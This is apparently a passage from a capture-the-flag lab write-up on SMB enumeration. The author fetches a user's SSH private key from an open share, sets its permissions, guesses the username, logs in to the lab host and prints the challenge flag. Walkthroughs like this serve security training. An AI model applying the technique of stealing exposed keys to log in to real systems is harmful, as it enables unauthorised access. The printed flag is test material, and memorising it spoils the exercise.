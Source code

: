 ## #4.8

**Download this file to your local machine, and change the permissions to "600" using "chmod 600 [file]".**

**Now, use the information you have already gathered to work out the username of the account. Then, use the service and key to log-in to the server.**

**What is the smb.txt flag?**

Let's get John Cactus' SSH private key:

~~~
smb: \.ssh\> get id_rsa
getting file \.ssh\id_rsa of size 1679 as id_rsa (5.3 KiloBytes/sec) (average 5.3 KiloBytes/sec)
smb: \.ssh\>
~~~

Now, let's give it the proper rights:

~~~
$ chmod 600 id_rsa 
~~~

And now, guess the name to connect. After trying unsuccessfully with `john`, `johncactus` and `jcactus`, I successfully connected with `cactus`:

~~~
$ ssh -i id_rsa cactus@10.10.234.125
load pubkey "id_rsa": invalid format
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Jun 16 18:37:00 UTC 2020

  System load:  0.0                Processes:           92
  Usage of /:   33.3% of 11.75GB   Users logged in:     0
  Memory usage: 17%                IP address for eth0: 10.10.234.125
  Swap usage:   0%


22 packages can be updated.
0 updates are security updates.


Last login: Tue Apr 21 11:19:15 2020 from 192.168.1.110
cactus@polosmb:~$ cat smb.txt 
THM{smb_is_fun_eh?}
~~~
